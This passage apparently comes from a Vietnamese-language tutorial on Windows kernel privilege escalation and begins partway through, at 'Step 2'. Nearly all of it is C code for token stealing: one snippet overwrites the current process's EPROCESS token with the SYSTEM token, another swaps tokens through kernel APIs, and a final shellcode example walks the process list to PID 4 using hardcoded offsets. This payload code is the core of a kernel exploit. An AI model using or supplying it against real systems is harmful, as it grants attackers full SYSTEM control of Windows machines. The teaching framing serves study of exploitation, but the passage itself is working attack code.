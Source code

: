 **Step 2: Get SYSTEM token**

```c
// EPROCESS.Token là một EX_FAST_REF structure
// Lower 4 bits là ref count, cần mask out

PVOID pSystemToken = *(PVOID*)((PUCHAR)pSystemProcess + TOKEN_OFFSET);
pSystemToken = (PVOID)((ULONG_PTR)pSystemToken & ~0xF); // Clear lower 4 bits
```

**Step 3: Replace current process token**

```c
PEPROCESS pCurrentProcess = PsGetCurrentProcess();
PVOID* pCurrentTokenPtr = (PVOID*)((PUCHAR)pCurrentProcess + TOKEN_OFFSET);

// Save old token (optional, for cleanup)
PVOID pOldToken = *pCurrentTokenPtr;

// Steal SYSTEM token
*pCurrentTokenPtr = pSystemToken;

// Current process giờ có SYSTEM privileges!
```

### Technique 2: Token Manipulation via PsReferencePrimaryToken

Cách sạch hơn sử dụng documented APIs:

```c
PACCESS_TOKEN pSystemToken = PsReferencePrimaryToken(pSystemProcess);
PACCESS_TOKEN pOldToken = PsReferencePrimaryToken(PsGetCurrentProcess());

// Replace token
PsDereferencePrimaryToken(pOldToken);
SeSetTokenForProcess(PsGetCurrentProcess(), pSystemToken);
PsDereferenceImpersonationToken(pSystemToken);
```

### Token Stealing Shellcode Example

Minimal shellcode cho token stealing:

```c
// Find SYSTEM EPROCESS
ULONG_PTR current = (ULONG_PTR)PsGetCurrentProcess();
ULONG_PTR system = current;

while (1) {
    PLIST_ENTRY list = (PLIST_ENTRY)(system + 0x448); // ActiveProcessLinks offset
    system = (ULONG_PTR)list->Flink - 0x448;

    HANDLE pid = *(HANDLE*)(system + 0x440); // UniqueProcessId offset
    if ((ULONG_PTR)pid == 4) break; // Found SYSTEM
}

// Steal token
ULONG_PTR systemToken = *(ULONG_PTR*)(system + 0x4B8); // Token offset
systemToken &= ~0xF; // Clear ref count bits

ULONG_PTR* currentToken = (ULONG_PTR*)(current + 0x4B8);
*currentToken = systemToken;
```
